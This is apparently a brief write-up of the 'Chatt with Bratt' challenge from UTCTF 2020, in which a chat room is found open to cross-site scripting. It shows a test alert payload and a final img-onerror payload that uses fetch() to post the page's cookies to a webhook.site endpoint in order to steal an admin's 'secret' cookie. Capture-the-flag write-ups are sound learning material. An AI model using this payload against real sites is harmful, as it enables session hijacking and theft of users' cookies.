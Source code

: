 ```yaml
---
title: "UTCTF 2020 - Chatt with Bratt Writeup"
date: 2020-03-10T08:30:29Z
---
```


<!-- 
UTCTF was my (and my team) first CTF. I learned a lot!

Before getting into the problem, I want to thank everyone in the UTCTF Discord, they really made my first experience much better! 
-->

For this challenge we were faced with a chat room with Brad Pid himself!
There was a warning though, we could not be rude to Brad because we admins would check the chats.

With this in mind, we start by trying a simple [XSS injection](https://owasp.org/www-community/attacks/xss/).

```html
<body onload=alert('test1')>
```

Hitting send caused the alert to trigger! 
So now lets make it a bit more complex, we need some endpoint to make requests to.
I used [Webhook.site](https://webhook.site), it gives me an url to make requests to and logs everything.

Before getting into the script, we need to decide what to steal.
In our case, when looking at the cookies there is one that stands out, the `secret`.

We'll steal them!

My final script looked like:

```html
<img 
    src="http://url.to.file.which/not.exist" 
    onerror="fetch(
        'https://webhook.site/#!/81f7d094-c908-465d-a571-ad47582fd6c6', {
            method:'POST', 
            body: JSON.stringify({data:document.cookie})
        }
    );">
```

Which sent the flag to the given endpoint.